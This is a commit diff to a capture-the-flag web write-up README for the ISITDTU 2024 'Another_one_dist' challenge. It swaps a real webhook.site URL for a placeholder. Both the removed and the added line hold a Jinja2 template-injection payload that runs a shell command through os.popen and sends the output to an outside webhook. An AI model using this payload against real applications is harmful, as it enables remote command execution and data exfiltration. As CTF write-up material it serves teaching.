

Before and after one commit to dungNHVhust/WriteupWeb, a Markdown page: ISITDTU2024/Another_one_dist/README.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/ISITDTU2024/Another_one_dist/README.md
+++ b/ISITDTU2024/Another_one_dist/README.md
@@ -69,7 +69,7 @@ Payload: <br>
 <a>
 ```
 {
-  "template": "{{ url_for.__globals__['__builtins__']['__import__']('urllib2').urlopen('https://webhook.site/0139531b-9559-42d0-a71a-b43e039822c2/?flag=' + url_for.__globals__['os'].popen('ls').read()) }}"
+  "template": "{{ url_for.__globals__['__builtins__']['__import__']('urllib2').urlopen('<Link_Webhook>/?flag=' + url_for.__globals__['os'].popen('ls').read()) }}"
 }
 ```
 </a>
````
